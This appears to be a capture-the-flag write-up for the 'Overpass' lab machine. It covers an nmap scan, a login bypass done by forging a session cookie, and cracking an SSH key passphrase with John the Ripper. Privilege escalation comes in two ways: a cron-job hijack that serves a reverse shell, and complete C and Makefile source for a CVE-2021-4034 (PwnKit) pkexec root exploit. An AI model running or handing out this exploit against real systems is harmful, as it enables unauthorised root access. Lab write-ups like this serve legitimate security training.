 # Overpass 
## IP : 10.10.215.35

- Scan using `nmap -sC -sV 10.10.215.35 > nmap_log`
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-13 17:00 WIB
Nmap scan report for 10.10.215.35
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.93 seconds
```
- We show the port 80 http is open try to scan using gobuster
- On gobuster we get `/admin` directory 
- Check script javascipt on `admin` url and then we show :
```js
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
- Function login have a condition where response === "Incorrect Credentials" it's will fire up when whe try to submit with false credential
- After some research the Login function will execute the else condition if the return is not equals with `Incorrect Credentials` so we can modified this using Burp Suite intercept the response or just set the cookie using javascript console
- After success to modified the cookie or intercept the connection we will got the private key rsa on admin page
- Copy that rsa and try to crack that using 
```
ssh2john id_rsa > rsa_key_hash
john --wordlist=/usr/share/wordlist/rockyou.txt rsa_key_hash
```
- After got the passphrase then ssh to the server
- On `/home/james` we got the flag

# Priviledge Escalation
## There is few ways to got priviledges 
### 1. Using Linpeas and got the crontab that root created
- change the `/etc/hosts` add our IP_ADDRESS to `overpass.thm` on that 
- Then Server on port 80 
    - Add `download/src` on that public server
    - Add `buildscript.sh` as reverse shell to our IP_ADDRESS 
- Listen on for revershe shell 
- And Congat's we got the root access

### 2. Using Linpeas we got the CVE-2021-4034
- we saw the linpeas log as ..
```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.21p2

Vulnerable to CVE-2021-4034

./linpeas.sh: 1188: ./linpeas.sh: [[: not found
./linpeas.sh: 1188: ./linpeas.sh: rpm: not found
./linpeas.sh: 1188: ./linpeas.sh: 0: not found
```
- So we try using this vuln create file `Makefile, evil-so.c, exploit.c`
```makefile
all:
	gcc -shared -o evil.so -fPIC evil-so.c
	gcc exploit.c -o exploit
clean:
    rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0); 
    execve("/bin/sh", NULL, NULL);
}
```
```c
#include <stdio.h>
#include <stdlib.h>
#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"
int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);    
    execve(BIN, argv, envp);    
    return 0;
}
```
- Compile using `make all` after compile success we got the `evil.so` and `exploit`
- Run the exploit and boom! you got root